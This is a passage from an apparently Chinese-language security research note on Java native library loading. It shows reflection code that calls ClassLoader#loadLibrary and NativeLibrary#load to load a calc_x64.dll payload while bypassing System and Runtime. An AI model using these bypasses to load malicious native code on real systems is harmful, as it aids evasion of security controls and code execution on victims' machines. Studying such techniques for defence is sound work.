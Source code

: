 ![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241202175806175.png)



除了上面的用System去加载，浅蓝师傅给出的可以用`com.sun.glass.utils.NativeLibLoader`去加载动态链接库

NativeLibLoader.loadLibrary如下

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241202183232840.png)

最后还是调用到了System.load

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241202183330622.png)

直接绕过System和Runtime去调用ClassLoader进行动态链接库加载

### 反射调用ClassLoader#loadLibrary

```java
public class loadLibraryToDLL {
    public static void main(String[] args) throws Exception{
        try {
            Class clazz = Class.forName("java.lang.ClassLoader");
            Method method = clazz.getDeclaredMethod("loadLibrary", Class.class, String.class, boolean.class);
            method.setAccessible(true);
            method.invoke(null, clazz, "E:\\CODE_COLLECT\\Idea_java_ProTest\\my-yso\\src\\main\\java\\org\\exploit\\loadDLL\\calc_x64.dll", true);
        }catch (Exception e){
            e.printStackTrace();
        }
    }
}
```

### 反射调用NativeLibrary#load

NativeLibrary是ClassLoader的内部静态匿名类

反射获取构造方法再进行实例化调用load

```java
    public static void main(String[] args) throws Exception{
        try {
            String file = "E:\\\\CODE_COLLECT\\\\Idea_java_ProTest\\\\my-yso\\\\src\\\\main\\\\java\\\\org\\\\exploit\\\\loadDLL\\\\calc_x64.dll";
            Class a = Class.forName("java.lang.ClassLoader$NativeLibrary");
            Constructor con = a.getDeclaredConstructor(new Class[]{Class.class,String.class,boolean.class});
            con.setAccessible(true);
            Object obj = con.newInstance(Class.class,file,true);
            Method method = obj.getClass().getDeclaredMethod("load", String.class, boolean.class);
            method.setAccessible(true);
            method.invoke(obj, file, false);
        }catch (Exception e){
            e.printStackTrace();
        }
    }
```
